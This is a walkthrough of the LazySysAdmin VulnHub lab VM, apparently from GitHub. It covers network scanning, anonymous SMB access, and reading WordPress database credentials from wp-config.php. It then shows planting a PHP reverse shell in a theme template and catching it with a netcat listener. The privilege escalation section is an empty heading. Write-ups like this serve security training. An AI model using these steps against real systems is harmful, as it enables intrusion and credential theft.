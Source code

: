 # LazySysAdmin: 1

## 1.Get VM IP

```bash
root@kali: arp-scan -I eth0 -l

Interface: eth0, type: EN10MB, MAC: 08:00:27:b2:e9:3f, IPv4: 192.168.56.102
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1    0a:00:27:00:00:0f       (Unknown: locally administered)
192.168.56.100  08:00:27:70:d2:8a       PCS Systemtechnik GmbH
192.168.56.106  08:00:27:e3:a8:a2       PCS Systemtechnik GmbH

3 packets received by filter, 0 packets dropped by kernel
```

The IP address is `192.168.56.106`, let's enumerate it.

## 2.Enumeration

```bash
root@kali: nmap -sV -sC -p22,80,139,445,3306,6667 -v -oN fullScan 192.168.56.106

Nmap scan report for 192.168.56.106
Host is up (0.00039s latency).

PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 b5:38:66:0f:a1:ee:cd:41:69:3b:82:cf:ad:a1:f7:13 (DSA)
|   2048 58:5a:63:69:d0:da:dd:51:cc:c1:6e:00:fd:7e:61:d0 (RSA)
|   256 61:30:f3:55:1a:0d:de:c8:6a:59:5b:c9:9c:b4:92:04 (ECDSA)
|_  256 1f:65:c0:dd:15:e6:e4:21:f2:c1:9b:a3:b6:55:a0:45 (ED25519)
80/tcp   open  http        Apache httpd 2.4.7 ((Ubuntu))
| http-robots.txt: 4 disallowed entries
|_/old/ /test/ /TR2/ /Backnode_files/
|_http-generator: Silex v2.2.7
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Backnode
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  DDtb        Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL (unauthorized)
6667/tcp open  irc         InspIRCd
| irc-info:
|   server: Admin.local
|   users: 1
|   servers: 1
|   chans: 0
|   lusers: 1
|   lservers: 0
|   source ident: nmap
|   source host: 192.168.56.102
|_  error: Closing link: (nmap@192.168.56.102) [Client exited]
MAC Address: 08:00:27:E3:A8:A2 (Oracle VirtualBox virtual NIC)
Service Info: Hosts: LAZYSYSADMIN, Admin.local; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 9m58s, deviation: 5h46m24s, median: 3h29m57s
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time:
|   date: 2023-10-01T15:52:45
|_  start_date: N/A
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: lazysysadmin
|   NetBIOS computer name: LAZYSYSADMIN\x00
|   Domain name: \x00
|   FQDN: lazysysadmin
|_  System time: 2023-10-02T01:52:46+10:00
| nbstat: NetBIOS name: LAZYSYSADMIN, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   LAZYSYSADMIN<00>     Flags: <unique><active>
|   LAZYSYSADMIN<03>     Flags: <unique><active>
|   LAZYSYSADMIN<20>     Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|_  WORKGROUP<1e>        Flags: <group><active>
```

let's first go for SMB :

```bash
root@kali: smbmap -H 192.168.56.106

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)

[+] IP: 192.168.56.106:445      Name: 192.168.56.106            Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        share$                                                  READ ONLY       Sumshare
        IPC$                                                    NO ACCESS       IPC Service (Web server)
```

now connect ot `share$` :

```bash
root@kali: smbclient \\192.168.56.106\share$ -N

Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Tue Aug 15 07:05:52 2017
  ..                                  D        0  Mon Aug 14 08:34:47 2017
  wordpress                           D        0  Tue Aug 15 07:21:08 2017
  Backnode_files                      D        0  Mon Aug 14 08:08:26 2017
  wp                                  D        0  Tue Aug 15 06:51:23 2017
  deets.txt                           N      139  Mon Aug 14 08:20:05 2017
  robots.txt                          N       92  Mon Aug 14 08:36:14 2017
  todolist.txt                        N       79  Mon Aug 14 08:39:56 2017
  apache                              D        0  Mon Aug 14 08:35:19 2017
  index.html                          N    36072  Sun Aug  6 01:02:15 2017
  info.php                            N       20  Tue Aug 15 06:55:19 2017
  test                                D        0  Mon Aug 14 08:35:10 2017
  old                                 D        0  Mon Aug 14 08:35:13 2017
```

interesting forlder is wordpress let's see if we can find the wp-config.php file :

```bash
smb: \wordpress\> get wp-config.php
getting file \wordpress\wp-config.php of size 3703 as wp-config.php (1808.0 KiloBytes/sec) (average 1808.1 KiloBytes/sec)
smb: \wordpress\> exit
```

the content of `wp-config.php` file is :

```text
/** MySQL database username */
define('DB_USER', 'Admin');

/** MySQL database password */
define('DB_PASSWORD', 'TogieMYSQL12345^^');
```

we also download the `deets.txt` from the share.

content of deets.txt

```text
CBF Remembering all these passwords.

Remember to remove this file and update your password after we push out the server.

Password 12345
```

## 3.Gaining Shell

We can not connect to mysql remotely but can connect to wordpress admin panel using the credentials found in `wp-config.php`:

![wordpress panel](https://github.com/Git-K3rnel/VulnHub/assets/127470407/f0e53320-202e-4a26-958d-b0f565a74b04)

now it is easy to get a reverse shell.

upload pentestmonkey php reverse shell into this path :

```text
Appereance -> editor -> 404 Template
```

![404](https://github.com/Git-K3rnel/VulnHub/assets/127470407/2946e356-e603-4c32-b6cd-667455beccb5)

start a listener and navigate to `192.168.56.106/wordpress/wp-content/themes/twentyfifteen/404.php`

```bash
root@kali: nc -nvlp 4444

listening on [any] 4444 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.106] 34822
Linux LazySysAdmin 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 i686 i686 GNU/Linux
 01:26:57 up  5:00,  0 users,  load average: 0.00, 0.00, 0.16
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## 4.Privilege Escalation








